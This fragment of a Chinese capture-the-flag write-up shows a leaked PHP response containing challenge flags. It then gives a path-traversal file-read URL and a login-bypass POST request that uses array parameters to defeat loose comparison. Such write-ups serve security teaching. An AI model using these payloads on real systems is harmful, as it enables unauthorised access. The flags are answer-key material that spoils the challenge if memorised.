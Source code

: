 
```http
HTTP/1.1 200 OK
Date: Mon, 26 Sep 2022 02:36:37 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 433
Connection: close
Content-Type: text/html; charset=UTF-8

--- start a 00000000-000000000000000000000000000 ---<br/>Content: <br/>---  end  a 00000000-000000000000000000000000000 ---<br/><br/>--- start a 00000000-000000000 ---<br/>Content: <?php
namespace lib;

class Flag {
    const FLAG1 = 'flag{simple_php_bypass_f4ffbe58}';
    const FLAG2 = 'flag{simple_sql_injection_41278e35}';
    // FLAG3 is in /flag3, call /readflag3 to read it;
}
<br/>---  end  a 00000000-000000000 ---<br/><br/>
```

### 结、枷锁 - flag1

先任意文件读拿源码 `http://nc.thuctf.redbud.info:30931/static?file=../app.js`

然后利用 `==` 判断数组时候转成string登录

```http
POST /login HTTP/1.1
Host: nc.thuctf.redbud.info:30931
Content-Length: 38
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://nc.thuctf.redbud.info:30931
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://nc.thuctf.redbud.info:30931/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=91020cc5b9def047e1448020852cd7ca; connect.sid=s%3AGon1qVLX40EOW2wjF_o_TDB3UqkAf67c.KmjxjVSybzFNyh%2BScJ35M0wUGTALpYimkKGm4b4JttM
Connection: close

username[0]=admin&password[0][0]=admin
```
